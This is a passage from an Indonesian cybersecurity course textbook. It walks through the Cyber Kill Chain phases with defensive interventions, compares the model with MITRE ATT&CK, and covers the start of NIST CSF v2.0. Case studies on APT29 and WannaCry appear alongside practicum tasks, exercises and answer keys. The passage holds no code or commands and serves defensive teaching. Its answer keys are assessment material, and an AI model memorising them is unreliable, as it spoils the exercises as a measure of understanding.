**Titik Intervensi Defensif:**
- EDR (Endpoint Detection and Response) dengan behavioral detection
- File Integrity Monitoring (FIM) pada file dan registry kritis
- Application whitelisting
- Monitoring scheduled task creation (Windows Event ID 4698)

#### Fase 6: Command & Control (C2)

**Tujuan Penyerang:** Membangun saluran komunikasi dua arah dengan sistem yang dikompromikan untuk mengirimkan perintah dan menerima data.

**Teknik C2:**
- HTTP/HTTPS ke server penyerang (sering menggunakan domain yang mirip legitimate)
- DNS tunneling (encode data dalam DNS queries)
- C2 melalui layanan cloud yang legitimate (Google Docs, Twitter, Pastebin)
- P2P (peer-to-peer) untuk C2 yang lebih resilient

**Titik Intervensi Defensif:**
- DNS monitoring dan filtering (blocklist domain C2 yang diketahui)
- Network traffic analysis untuk mendeteksi pola komunikasi C2 (beaconing)
- Egress filtering: blokir koneksi keluar yang tidak diotorisasi
- SSL/TLS inspection untuk dekripsi dan inspeksi traffic terenkripsi

#### Fase 7: Actions on Objectives

**Tujuan Penyerang:** Mencapai tujuan akhir serangan — yang bervariasi tergantung motivasi.

**Tujuan Umum:**
- Data exfiltration (espionage)
- Data destruction
- Ransomware deployment (enkripsi file)
- Sabotase sistem (mengganggu operasi)
- Credential theft untuk serangan selanjutnya
- Financial fraud

**Titik Intervensi Defensif:**
- DLP (Data Loss Prevention) untuk mendeteksi dan memblokir eksfiltrasi data massal
- Monitoring database untuk akses anomali atau query besar yang tidak biasa
- Network segmentation untuk membatasi apa yang dapat diakses dari sistem yang dikompromikan
- Backup yang terisolasi dan teruji untuk recovery dari ransomware

### 4.2 Cyber Kill Chain vs MITRE ATT&CK

| Aspek | Cyber Kill Chain | MITRE ATT&CK |
|---|---|---|
| **Struktur** | 7 fase linear | 14 taktik (tidak selalu linear) |
| **Granularitas** | Tingkat tinggi (fase umum) | Sangat granular (hundreds of techniques) |
| **Cakupan** | Enterprise network-focused | Enterprise, Mobile, ICS |
| **Update** | Tidak sering diupdate | Diupdate secara reguler berdasarkan observasi baru |
| **Penggunaan Utama** | Memahami lifecycle serangan; komunikasi dengan manajemen | Threat hunting; detection engineering; gap analysis |
| **Kelemahan** | Terlalu linier (serangan modern tidak selalu berurutan); tidak mencakup teknik yang sangat spesifik | Kompleks untuk digunakan tanpa tooling; dapat overwhelm analis pemula |
| **Kelebihan** | Sederhana dan mudah dipahami; berguna untuk komunikasi eksekutif | Sangat komprehensif; berbasis observasi nyata; terus diperbarui |

**Kapan Menggunakan Masing-masing:**
- **Kill Chain**: Menjelaskan lifecycle serangan kepada manajemen atau stakeholder non-teknis; analisis insiden tingkat tinggi; merancang layered defense secara konseptual
- **ATT&CK**: Detection engineering; threat hunting; vendor comparison; red team planning; komunikasi antar analis

---

## 5. Model atau Arsitektur

### 5.1 Kill Chain — Biaya Intervensi per Fase

```mermaid
flowchart LR
    subgraph cost["Biaya Pertahanan vs Fase Kill Chain"]
    P1["Reconnaissance\n$$\nOSINT monitoring\nhoneypots"]
    P2["Weaponization\n$$$\nThreat intel\nproducts"]
    P3["Delivery\n$$\nEmail gateway\nweb proxy"]
    P4["Exploitation\n$$$\nPatch mgmt\napp hardening"]
    P5["Installation\n$$$$\nEDR\nFIM"]
    P6["C2\n$$$$\nNDR\negress control"]
    P7["Actions\n$$$$$\nDLP\nForensics\nIR"]
    end
    
    P1 --> P2 --> P3 --> P4 --> P5 --> P6 --> P7
    
    note1["Intervensi di fase awal\nLEBIH MURAH dan\nLEBIH EFEKTIF"] --> P1
    note2["Setelah Actions on Objectives,\nkerusakan sudah terjadi.\nRespon = Damage Control"] --> P7
```

---

## 6. Contoh Terapan

### Studi Kasus: Rekonstruksi Serangan APT29 terhadap Organisasi Riset (Berdasarkan Pola Publik)

**Konteks:**
Berdasarkan laporan publik dari berbagai incident response firm, APT29 diketahui menggunakan pola serangan yang khas terhadap organisasi riset dan pemerintah. Berikut adalah rekonstruksi tipikal berdasarkan pola yang terdokumentasi:

**Rekonstruksi per Fase Kill Chain:**

| Fase | Aktivitas APT29 (Tipikal) | Lama | Deteksi yang Memungkinkan |
|---|---|---|---|
| **Reconnaissance** | OSINT menggunakan LinkedIn untuk mengidentifikasi peneliti; scanning CVE pada web-facing assets; phishing simulation test (menyamar sebagai pihak terkait) | 2-4 minggu | Monitoring OSINT; honeypot email |
| **Weaponization** | Dokumen Word dengan CVE-2023-23397 atau macro berbahaya; infrastruktur C2 di VPS dengan domain mirip target | 1-2 minggu | Threat intel subscription |
| **Delivery** | Spear phishing email bertarget peneliti senior; subject terkait konferensi atau paper review | Hari H | Email sandbox analysis |
| **Exploitation** | Eksploitasi CVE Outlook untuk mendapatkan NTLM hash; atau user membuka dokumen dan mengaktifkan macro | Menit | EDR behavioral alert; email alert |
| **Installation** | Deploy SUNBURST-like implant; persistensi via scheduled task dengan nama menyerupai sistem (misal: "Windows Update Check") | Jam pertama | Sysmon scheduled task monitoring |
| **C2** | Komunikasi HTTPS ke domain yang menyerupai layanan cloud; beaconing setiap 1-6 jam | Berkelanjutan | DNS analytic; network beaconing detection |
| **Actions** | Exfiltration dokumen penelitian; dump credential untuk akses masa depan | Berminggu-minggu | DLP alert; anomalous data transfer |

**Implikasi Defensif:**
Berdasarkan rekonstruksi ini, tiga titik intervensi yang paling cost-effective untuk organisasi riset Indonesia adalah:
1. **Email sandboxing** (mencegah eksploitasi di fase Delivery/Exploitation)
2. **Scheduled task monitoring** (mendeteksi instalasi malware di fase Installation)
3. **DNS/beaconing detection** (mengidentifikasi C2 sebelum eksfiltrasi)

---

## 7. Praktikum atau Aktivitas Terarah

### Praktikum 6.1: Rekonstruksi Kill Chain dari Log Insiden

**Tujuan:**
Melatih kemampuan rekonstruksi urutan serangan menggunakan model Kill Chain dari fragmen log dan artefak forensik.

**Dataset:**
Log insiden yang disediakan dosen (berupa log sysmon, Windows Event Log, dan network capture yang sudah disanitasi).

**Langkah Kerja:**

1. Baca fragmen log yang diberikan
2. Identifikasi dan urutkan kejadian secara kronologis
3. Petakan setiap kejadian ke fase Kill Chain yang sesuai
4. Identifikasi titik di mana serangan dapat dihentikan (break points)
5. Rekomendasikan kontrol spesifik untuk setiap break point
6. Tulis ringkasan eksekutif (1 halaman) yang menjelaskan serangan kepada manajemen non-teknis

**Kriteria Keberhasilan:**
- Rekonstruksi kronologis yang akurat
- Mapping ke Kill Chain yang tepat
- Rekomendasi break point yang realistis dan spesifik
- Executive summary yang mudah dipahami non-teknis

---

## 8. Latihan Pemahaman

**Soal 1:** Penyerang memindai subdomain dan email karyawan menggunakan Shodan dan LinkedIn. Fase Kill Chain mana yang sedang terjadi? Apa tindakan defensif yang paling tepat?

**Soal 2:** Penyerang berhasil menjalin komunikasi dua arah dengan sistem yang dikompromikan setiap 4 jam. Fase Kill Chain mana? Apa data source yang berguna untuk mendeteksinya?

**Soal 3:** Jelaskan mengapa Cyber Kill Chain disebut sebagai model yang "defender friendly" dan apa kelemahan utamanya ketika diterapkan pada ancaman modern seperti ransomware yang bergerak cepat.

**Soal 4:** Bandingkan strategi pertahanan yang efektif untuk memutus serangan pada fase Delivery versus pada fase Actions on Objectives. Mengapa intervensi di fase Delivery lebih disukai?

**Soal 5:** Seorang analis baru berpendapat bahwa karena Kill Chain adalah model linier, defender hanya perlu fokus pada fase pertama (Reconnaissance) dan serangan pasti gagal. Apa yang salah dari argumen ini?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: WannaCry Ransomware — Rekonstruksi Kill Chain

WannaCry (Mei 2017) adalah salah satu serangan ransomware paling merusak dalam sejarah, menginfeksi lebih dari 200.000 sistem di 150 negara dalam 48 jam, termasuk Dinas Kesehatan Nasional Inggris (NHS). WannaCry menggunakan exploit EternalBlue (CVE-2017-0144) yang menargetkan kerentanan SMB pada Windows.

**Fakta Kunci:**
- EternalBlue adalah exploit yang bocor dari NSA (diungkap oleh Shadow Brokers)
- Microsoft telah merilis patch (MS17-010) pada Maret 2017, dua bulan sebelum WannaCry
- WannaCry menggunakan worm propagation — menyebar otomatis tanpa membutuhkan interaksi pengguna
- Serangan dihentikan ketika Marcus Hutchins meregistrasi domain "killswitch" yang ada dalam kode WannaCry
- NHS kehilangan setidaknya £92 juta

**Pertanyaan:**

1. **Rekonstruksi Kill Chain (C4)**: Rekonstruksi serangan WannaCry menggunakan model 7-fase Kill Chain. Untuk setiap fase, jelaskan: apa yang dilakukan malware/penyerang, berapa lama fase tersebut berlangsung (perkiraan), dan kontrol defensif apa yang dapat memutus rantai di fase tersebut.

2. **Analisis Kegagalan Defensif (C5)**: NHS mengalami dampak sangat parah meski patch sudah tersedia 2 bulan sebelumnya. Identifikasi minimal 4 kegagalan sistemik dalam program keamanan NHS yang memungkinkan WannaCry menyebabkan kerusakan sebesar ini. Untuk setiap kegagalan, rekomendasikan kontrol yang realistis untuk organisasi kesehatan publik dengan kompleksitas tinggi dan sumber daya terbatas.

---

## 10. Kunci Jawaban dan Pembahasan

### Soal 1: Fase Reconnaissance; Tindakan defensif: Monitoring presence internet organisasi menggunakan Shodan/FOFA alerts untuk IP sendiri; kebijakan email hygiene (tidak mempublikasi format email di website); honeypot email untuk mendeteksi upaya recon.

### Soal 2: Fase Command & Control (C2); Data source: DNS query log (anomaly detection — query berulang ke domain baru/tidak umum dengan interval reguler = tanda beaconing); network flow analysis (koneksi outbound ke IP/domain tunggal dengan interval konsisten); NDR (Network Detection and Response).

### Soal 3: Kill Chain "defender friendly" karena penyerang harus berhasil di SEMUA 7 fase, sementara defender hanya perlu memutus di SATU fase. Kelemahan untuk serangan cepat seperti ransomware: serangan modern seperti RaaS dapat melewati beberapa fase dalam hitungan jam (bukan hari/minggu). Fase-fase tidak selalu berurutan — penyerang dapat berpindah maju-mundur. Kill Chain juga tidak menangkap nuansa insider threat atau kompromi credential.

### Soal 4: Delivery = memblokir sebelum payload sampai ke sistem → kontrol: email gateway, web proxy, antivirus → lebih murah, mencegah infeksi. Actions = setelah data exfiltrated atau encrypted → damage sudah terjadi → respons hanya bisa membatasi kerusakan lebih lanjut, bukan mengembalikan yang hilang. Intervensi lebih awal dalam Kill Chain selalu lebih efektif dan lebih murah.

### Soal 5: Kelemahan argumen: (a) Tidak semua recon dapat dideteksi — penyerang menggunakan OSINT pasif yang tidak meninggalkan jejak; (b) Pertahanan di fase Recon tidak cukup — penyerang mungkin sudah memiliki informasi dari sumber lain atau dari insiden sebelumnya; (c) Defense-in-depth diperlukan karena tidak ada satu titik kontrol pun yang 100% efektif. Strategi terbaik adalah memiliki pertahanan di setiap fase, bukan bergantung pada satu lapisan.

### Studi Kasus WannaCry — Panduan Jawaban

**Kill Chain Rekonstruksi:**

| Fase | Aktivitas WannaCry | Durasi | Break Point |
|---|---|---|---|
| Reconnaissance | (Minimal — worm menyebar secara massal, bukan bertarget) | — | Tidak relevan untuk serangan ini |
| Weaponization | Pengembang Korea Utara mengintegrasikan EternalBlue + DoublePulsar dengan ransomware module | Minggu/bulan sebelumnya | Threat intel tentang EternalBlue setelah Shadow Brokers leak |
| Delivery | Auto-propagation melalui port 445 SMB — tidak butuh interaksi pengguna | Otomatis, real-time | Firewall blokir port 445 dari internet; network segmentation |
| Exploitation | EternalBlue mengeksploitasi CVE-2017-0144 pada sistem yang belum di-patch | Detik per sistem | Patch MS17-010 (tersedia 2 bulan sebelumnya!) |
| Installation | WannaCry diinstal dan menginstal DoublePulsar backdoor | Detik | EDR detection; Application control |
| C2 | Pengecekan domain killswitch; tidak ada C2 kompleks | Real-time | Registrasi domain killswitch (yang menghentikan penyebaran) |
| Actions | Enkripsi file dengan AES-128; tampilkan ransom note; $300 Bitcoin | Menit per sistem | Offline backup yang terpisah; ransom note monitoring |

**4 Kegagalan Sistemik NHS:**
1. **Patch Management yang tidak efektif**: MS17-010 tersedia 2 bulan sebelumnya tetapi tidak diterapkan — sistem legacy (XP, 2003) tidak mendapat patch
2. **Kurangnya segmentasi jaringan**: WannaCry menyebar begitu cepat karena jaringan NHS sangat flat — satu sistem yang terinfeksi bisa menjangkau seluruh jaringan rumah sakit
3. **Kurangnya backup yang teruji**: Banyak sistem NHS tidak memiliki backup yang dapat dipulihkan dengan cepat
4. **Penggunaan OS legacy**: Banyak perangkat medis masih menggunakan Windows XP yang tidak mendapatkan patch resmi

---

## 11. Ringkasan Bab

Cyber Kill Chain memberikan kerangka sederhana namun powerful untuk memahami lifecycle serangan siber dan merancang pertahanan berlapis. Model 7-fase — Reconnaissance, Weaponization, Delivery, Exploitation, Installation, C2, Actions on Objectives — menunjukkan bahwa serangan siber adalah proses, bukan kejadian tunggal. Setiap fase adalah peluang bagi defender untuk menggagalkan serangan.

Prinsip kunci yang berasal dari Kill Chain adalah asimetri defensif: penyerang harus berhasil di setiap fase, defender hanya perlu berhasil sekali. Ini mendorong strategi defense-in-depth yang menempatkan kontrol di setiap fase, memaksimalkan probabilitas bahwa setidaknya satu kontrol akan menggagalkan serangan.

Perbandingan dengan MITRE ATT&CK menunjukkan bahwa kedua framework bersifat komplementer — Kill Chain berguna untuk komunikasi dan pemikiran strategis, sementara ATT&CK berguna untuk analisis teknis granular dan engineering deteksi.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:**
WannaCry menghancurkan operasi NHS Inggris meski patch sudah tersedia 2 bulan sebelumnya. Siapa yang bertanggung jawab secara etis dan hukum atas insiden ini? Apakah NHS (kegagalan patch management), Microsoft (desain SMB yang rentan), NSA (mengembangkan EternalBlue dan gagal mengungkapkannya ke vendor), atau Shadow Brokers (yang membocorkan exploit)? Bagaimana jawaban Anda berubah jika korban adalah infrastruktur kritis Indonesia?

**Pertanyaan Refleksi 2:**
Cyber Kill Chain dirancang berdasarkan serangan APT yang terencana dan bertahap. Namun, serangan ransomware modern dapat menyelesaikan 7 fase dalam hitungan jam. Apakah model Kill Chain masih relevan sebagai alat analisis, atau sudah saatnya digantikan oleh model yang lebih dinamis? Apa yang seharusnya menjadi model analisis serangan generasi berikutnya?

---


---

# BAB 7 — NIST CYBERSECURITY FRAMEWORK v2.0

**Pertemuan:** 7  
**Sub-CPMK:** Sub-CPMK.3  
**CPMK:** CPMK.3  
**Evaluasi:** Eval-3 (UTS, 30%)

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 7, mahasiswa mampu:

- Menjelaskan struktur dan komponen utama NIST CSF v2.0, termasuk enam fungsi inti.
- Membedakan fungsi, kategori, subkategori, dan implementasi referensi dalam NIST CSF v2.0.
- Menjelaskan konsep CSF Tier dan CSF Profile serta kegunaannya.
- Memetakan aktivitas keamanan organisasi ke fungsi-fungsi NIST CSF v2.0.
- Mengidentifikasi perubahan signifikan dari NIST CSF v1.1 ke v2.0, khususnya penambahan fungsi Govern.

*Kaitan OBE: Sub-CPMK.3 → CPMK.3 → IK-11.a → CPL11 → Eval-3 (UTS)*

---

## 2. Peta Konsep Bab



---

## 3. Pengantar Kontekstual

Pada Februari 2024, NIST merilis NIST Cybersecurity Framework (CSF) 2.0 — pembaruan signifikan pertama sejak versi 1.1 (2018). Perubahan paling mencolok adalah penambahan fungsi keenam: **Govern** (Tata Kelola). Perubahan ini bukan sekadar perubahan struktural — ini mencerminkan pergeseran pemahaman industri bahwa keamanan siber yang efektif membutuhkan fondasi tata kelola yang kuat, bukan hanya kemampuan teknis.

NIST CSF dilahirkan pada 2014 berdasarkan Executive Order 13636 Presiden Obama yang merespons meningkatnya serangan terhadap infrastruktur kritis Amerika Serikat. Framework ini dirancang sebagai "vocabulary yang umum" — bahasa yang dapat digunakan oleh semua pemangku kepentingan, dari CEO hingga analis teknis, untuk berbicara tentang keamanan siber.

Kini, NIST CSF v2.0 telah menjadi framework de facto bagi ribuan organisasi di seluruh dunia — dari UKM hingga korporasi multinasional — yang mencari pendekatan terstruktur namun fleksibel untuk mengelola risiko keamanan siber. Pemahaman mendalam tentang CSF v2.0 adalah kompetensi yang secara eksplisit dibutuhkan dalam karir keamanan siber di hampir semua sektor.

---

## 4. Landasan Teori

### 4.1 NIST CSF v2.0 — Latar Belakang dan Filosofi

> **Definisi (NIST):** The NIST Cybersecurity Framework (CSF) 2.0 provides guidance to industry, government agencies, and other organizations to manage cybersecurity risks. It offers a taxonomy of high-level cybersecurity outcomes that can be used by any organization — regardless of its size, sector, or maturity — to better understand, assess, prioritize, and communicate its cybersecurity efforts.

**Prinsip Desain NIST CSF:**
- **Tidak preskriptif**: CSF mendefinisikan *apa* yang harus dicapai, bukan *bagaimana* mencapainya
- **Berbasis risiko**: Fokus pada outcome, bukan compliance checkbox
- **Dapat diskalakan**: Berlaku untuk organisasi dari semua ukuran dan sektor
- **Dapat dikustomisasi**: Profil memungkinkan adaptasi untuk konteks spesifik

### 4.2 Enam Fungsi Inti NIST CSF v2.0

#### Fungsi 1: GOVERN (GV) — *Baru di v2.0*

> Menetapkan dan memantau strategi, ekspektasi, dan kebijakan manajemen risiko siber organisasi.

Fungsi Govern adalah "fondasi dari fondasi" — memastikan bahwa semua aktivitas keamanan siber diinformasikan oleh pemahaman yang jelas tentang misi, tujuan, pemangku kepentingan, dan toleransi risiko organisasi. Tanpa tata kelola yang kuat, semua aktivitas teknis kehilangan arah dan akuntabilitas.

**Kategori dalam Govern:**
- **GV.OC** — Organizational Context: Memahami misi, pemangku kepentingan, dan kebutuhan legal/regulasi
- **GV.RM** — Risk Management Strategy: Strategi, toleransi, dan appetite risiko
- **GV.RR** — Roles, Responsibilities, and Authorities: Siapa bertanggung jawab atas apa
- **GV.PO** — Policy: Kebijakan keamanan siber yang ditetapkan dan dikomunikasikan
- **GV.OV** — Oversight: Pemantauan dan peninjauan program keamanan siber
- **GV.SC** — Cybersecurity Supply Chain Risk Management: Manajemen risiko rantai pasok

#### Fungsi 2: IDENTIFY (ID)

> Memahami aset, sistem, data, dan kemampuan yang mendukung misi organisasi beserta risiko keamanan sibernya.

Anda tidak bisa melindungi apa yang tidak Anda ketahui. Fungsi Identify adalah dasar dari semua aktivitas keamanan — inventarisasi aset, pemahaman tentang ancaman dan kerentanan yang relevan, dan penilaian risiko yang terstruktur.

**Kategori dalam Identify:**
- **ID.AM** — Asset Management: Inventarisasi hardware, software, data, dan infrastruktur
- **ID.RA** — Risk Assessment: Identifikasi, analisis, dan prioritas risiko
- **ID.IM** — Improvement: Pembelajaran dari insiden dan evaluasi postur

#### Fungsi 3: PROTECT (PR)

> Mengembangkan dan mengimplementasikan perlindungan untuk memastikan pengiriman layanan penting.

Protect mencakup semua kontrol preventif yang dirancang untuk membatasi atau menampung dampak insiden keamanan.

**Kategori dalam Protect:**
- **PR.AA** — Identity Management, Authentication, and Access Control
- **PR.AT** — Awareness and Training: Keamanan diintegrasikan dalam budaya
- **PR.DS** — Data Security: Perlindungan data sepanjang siklus hidupnya
- **PR.PS** — Platform Security: Keamanan hardware, software, dan layanan
- **PR.IR** — Technology Infrastructure Resilience: Ketahanan infrastruktur

#### Fungsi 4: DETECT (DE)

> Mengidentifikasi dan menganalisis kemungkinan kejadian keamanan siber.

Karena tidak ada sistem pertahanan yang sempurna, kemampuan deteksi yang andal adalah lini pertahanan kedua yang kritis. Semakin cepat insiden terdeteksi, semakin kecil dampaknya.

**Kategori dalam Detect:**
- **DE.CM** — Continuous Monitoring: Pemantauan berkelanjutan jaringan, sistem, dan data
- **DE.AE** — Adverse Event Analysis: Analisis event untuk mengidentifikasi insiden

#### Fungsi 5: RESPOND (RS)

> Mengambil tindakan terhadap kejadian keamanan siber yang terdeteksi.

Respons yang cepat dan terkoordinasi adalah kunci untuk membatasi dampak insiden. Fungsi ini mencakup perencanaan, komunikasi, analisis, mitigasi, dan pembelajaran dari insiden.

**Kategori dalam Respond:**
- **RS.MA** — Incident Management
- **RS.AN** — Incident Analysis
- **RS.CO** — Incident Response Reporting and Communication
- **RS.MI** — Incident Mitigation
- **RS.IM** — Incident Response Improvements

#### Fungsi 6: RECOVER (RC)

> Mempertahankan rencana untuk ketahanan dan memulihkan kemampuan atau layanan yang terganggu.

Pemulihan yang efektif membutuhkan perencanaan *sebelum* insiden terjadi — bukan setelah. Fungsi ini memastikan organisasi dapat kembali beroperasi normal setelah insiden.

**Kategori dalam Recover:**
- **RC.RP** — Incident Recovery Plan Execution
- **RC.CO** — Incident Recovery Communication

### 4.3 CSF Tier: Mengukur Kematangan

CSF Tier mendeskripsikan tingkat kecanggihan praktik manajemen risiko keamanan siber organisasi.

| Tier | Nama | Karakteristik | Implikasi |
|---|---|---|---|
| **Tier 1** | Partial | Tidak terstruktur, reaktif, ad-hoc; tidak ada kebijakan formal | Tinggi risiko, tidak sustainable |
| **Tier 2** | Risk Informed | Sadar risiko tetapi tidak konsisten; beberapa kebijakan ada tapi tidak ditegakkan | Perbaikan diperlukan; beberapa kontrol ada |
| **Tier 3** | Repeatable | Praktik formal, terdokumentasi, dan diterapkan secara konsisten | Postur yang solid; dapat diaudit |
| **Tier 4** | Adaptive | Terus belajar dan berkembang; risk management terintegrasi dengan keputusan bisnis | Maturity optimal; proaktif terhadap ancaman baru |

📌 **Poin Kunci:** Tier 4 adalah aspirasi, bukan persyaratan untuk semua organisasi. Target Tier yang tepat bergantung pada profil risiko, sektor, dan sumber daya organisasi. Tidak setiap organisasi perlu mencapai Tier 4 di semua area.

### 4.4 CSF Profile: Memahami Posisi Saat Ini dan Tujuan

CSF Profile adalah alat untuk mengidentifikasi dan memprioritaskan tindakan keamanan siber berdasarkan kebutuhan spesifik organisasi.

**Dua Jenis Profile:**
1. **Current Profile**: Menggambarkan outcomes keamanan siber yang *sudah dicapai* saat ini
2. **Target Profile**: Menggambarkan outcomes yang *ingin dicapai* berdasarkan tujuan bisnis, toleransi risiko, dan sumber daya

**Proses Penggunaan Profile:**
1. Identifikasi requirements bisnis, regulasi, dan toleransi risiko
2. Buat Current Profile berdasarkan penilaian kondisi saat ini
3. Buat Target Profile berdasarkan tujuan yang ingin dicapai
4. Analisis gap antara Current dan Target Profile
5. Buat action plan untuk menutup gap

### 4.5 Perubahan Utama dari CSF v1.1 ke CSF v2.0

| Aspek | CSF v1.1 (2018) | CSF v2.0 (2024) |
|---|---|---|
| **Fungsi Inti** | 5 (ID, PR, DE, RS, RC) | **6** — ditambahkan GOVERN |
| **Cakupan** | Terutama infrastruktur kritis AS | **Semua organisasi**, semua ukuran, semua sektor |
| **Supply Chain** | Pertimbangan terbatas | **Kategori penuh GV.SC** — Supply Chain Risk Management |
| **Integrasi** | Berdiri sendiri | Terintegrasi dengan NIST Privacy Framework dan RMF |
| **Referensi** | NIST SP 800-53, CIS Controls | Lebih luas, termasuk ISO 27001, COBIT, dan lainnya |

---

## 5. Model atau Arsitektur

### 5.1 NIST CSF v2.0 — Visualisasi Enam Fungsi

```mermaid
flowchart LR
    subgraph Govern["🔵 GOVERN\n(Fondasi Tata Kelola)"]
        GV["Strategi Risiko\nKebijakan\nPeran & Tanggung Jawab\nSupply Chain Risk"]
    end
    
    subgraph Identify["🟡 IDENTIFY\n(Pemahaman Konteks)"]
        ID2["Inventarisasi Aset\nRisk Assessment\nKonteks Bisnis"]
    end
    
    subgraph Protect["🟢 PROTECT\n(Perlindungan)"]
        PR2["Access Control\nTraining\nData Security\nHardening"]
    end
    
    subgraph Detect["🟠 DETECT\n(Deteksi)"]
        DE2["Continuous Monitoring\nAnomaly Detection\nEvent Analysis"]
    end
    
    subgraph Respond["🔴 RESPOND\n(Respons)"]
        RS2["Incident Response\nCommunication\nMitigation"]
    end
    
    subgraph Recover["🟣 RECOVER\n(Pemulihan)"]
        RC2["Recovery Planning\nBusiness Continuity\nLessons Learned"]
    end
    
    Govern --> Identify
    Identify --> Protect
    Protect --> Detect
    Detect --> Respond
    Respond --> Recover
    Recover --> Govern
    
    style Govern fill:#1565c0,color:#fff
    style Identify fill:#f9a825,color:#000
    style Protect fill:#2e7d32,color:#fff
    style Detect fill:#e65100,color:#fff
    style Respond fill:#b71c1c,color:#fff
    style Recover fill:#4a148c,color:#fff
```

---

## 6. Contoh Terapan

### Studi Kasus: Pemetaan CSF v2.0 pada Perusahaan E-Commerce

**Konteks:** Perusahaan e-commerce menengah dengan 50.000 transaksi harian ingin menggunakan NIST CSF v2.0 sebagai framework untuk menilai dan meningkatkan postur keamanannya.

**Pemetaan Current State ke CSF v2.0:**

| Fungsi | Kategori | Status | Gap yang Ditemukan |
|---|---|---|---|
| **GOVERN** | GV.RM (Risk Strategy) | Partial (Tier 1) | Tidak ada risk appetite yang terdokumentasi; tidak ada CISO formal |
| **IDENTIFY** | ID.AM (Asset Mgmt) | Partial (Tier 2) | Inventarisasi ada tapi tidak akurat dan tidak diperbarui |
| **PROTECT** | PR.AA (Access Control) | Repeatable (Tier 3) | MFA diterapkan untuk akun admin; tidak untuk semua karyawan |
| **PROTECT** | PR.DS (Data Security) | Risk Informed (Tier 2) | Enkripsi ada untuk data payment, tapi tidak untuk data pelanggan lain |
| **DETECT** | DE.CM (Monitoring) | Partial (Tier 1) | Tidak ada SIEM; monitoring manual dan tidak konsisten |
| **RESPOND** | RS.MA (Incident Mgmt) | Partial (Tier 1) | Tidak ada IRP formal; respons ad-hoc |
| **RECOVER** | RC.RP (Recovery Plan) | Partial (Tier 1) | Ada backup tetapi belum pernah diuji |

**Gap Analisis dan Prioritasi:**
Tiga gap paling kritis: (1) Tidak ada IRP formal — risiko tinggi karena tanpa rencana, respons akan kacau; (2) Tidak ada monitoring — dwell time akan sangat panjang; (3) Tidak ada risk strategy — semua keputusan keamanan tanpa arah yang jelas.

---

## 7. Praktikum atau Aktivitas Terarah

### Praktikum 7.1: Pemetaan CSF v2.0 untuk Organisasi Fiktif

**Tujuan:** Melatih kemampuan menggunakan NIST CSF v2.0 sebagai alat penilaian dan perencanaan.

**Dataset:** Skenario organisasi yang diberikan dosen (institusi pendidikan tinggi dengan 5.000 mahasiswa dan 500 staf).

**Langkah Kerja:**
1. Baca skenario organisasi secara mendalam
2. Untuk setiap fungsi CSF, tentukan kategori yang paling relevan untuk konteks ini
3. Nilai Current State setiap kategori (Tier 1-4) berdasarkan deskripsi skenario
4. Tentukan Target State yang realistis untuk 12 bulan ke depan
5. Identifikasi 5 gap terpenting
6. Buat action plan untuk menutup gap — prioritaskan berdasarkan risiko dan dampak

**Output:** CSF Assessment Report (Template tersedia di Lampiran C.1)

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Fungsi CSF yang secara khusus menangani pemantauan aktivitas jaringan secara berkelanjutan untuk mendeteksi anomali adalah:
A. IDENTIFY   B. PROTECT   C. DETECT   D. RESPOND

**Soal 2 (PG):** Penambahan fungsi GOVERN dalam CSF v2.0 bertujuan utama untuk:
A. Menambah teknik deteksi baru
B. Memastikan keamanan siber dikelola dalam konteks tata kelola dan strategi organisasi
C. Menggantikan fungsi PROTECT
D. Memperluas cakupan ke Mobile Security

**Soal 3 (Esai Singkat):** Jelaskan perbedaan antara CSF Tier dan CSF Profile. Mengapa keduanya diperlukan secara bersamaan?

**Soal 4 (Analisis Kasus):** Sebuah koperasi simpan pinjam dengan 10.000 anggota baru bergabung sebagai lembaga keuangan mikro yang diawasi OJK. Mereka belum memiliki program keamanan formal. Di fungsi dan kategori CSF mana mereka seharusnya memulai? Justifikasikan pilihan Anda.

**Soal 5 (Perancangan):** Rancang Current Profile dan Target Profile (12 bulan) untuk sektor kesehatan (klinik dengan 50 staf). Untuk setiap fungsi, tentukan Tier saat ini dan target, dan beri justifikasi singkat.

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Penggunaan CSF v2.0 untuk Laporan ke Dewan Direksi

Sebuah perusahaan infrastruktur energi nasional diminta oleh Dewan Direksi untuk menyajikan laporan postur keamanan siber menggunakan framework standar yang dapat dipahami non-teknis. CISO memilih NIST CSF v2.0 sebagai framework pelaporan.

**Pertanyaan:**
1. **Desain Framework Pelaporan (C4)**: Rancang template laporan 1 halaman berbasis CSF v2.0 yang dapat dipresentasikan kepada Dewan Direksi. Template harus: menunjukkan postur saat ini per fungsi; mengindikasikan tren (membaik/stabil/memburuk); menyoroti risiko kritis; dan memberikan rekomendasi prioritas investasi.

2. **Integrasi Bisnis (C5)**: Jelaskan bagaimana NIST CSF v2.0 — khususnya fungsi Govern — dapat diintegrasikan dengan Enterprise Risk Management (ERM) perusahaan. Apa manfaat konkret dari integrasi ini, dan apa tantangan implementasinya?

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — C (DETECT):** Pemantauan berkelanjutan (DE.CM) adalah inti dari fungsi Detect. Fungsi ini mencakup monitoring jaringan, sistem, dan aktivitas pengguna untuk mengidentifikasi event yang mencurigakan.

**Soal 2 — B:** Govern memastikan bahwa manajemen risiko siber diintegrasikan dengan strategi, kebijakan, dan tata kelola organisasi secara keseluruhan. Ini menjawab pertanyaan "siapa yang bertanggung jawab, apa yang menjadi prioritas, dan bagaimana keputusan keamanan dibuat."

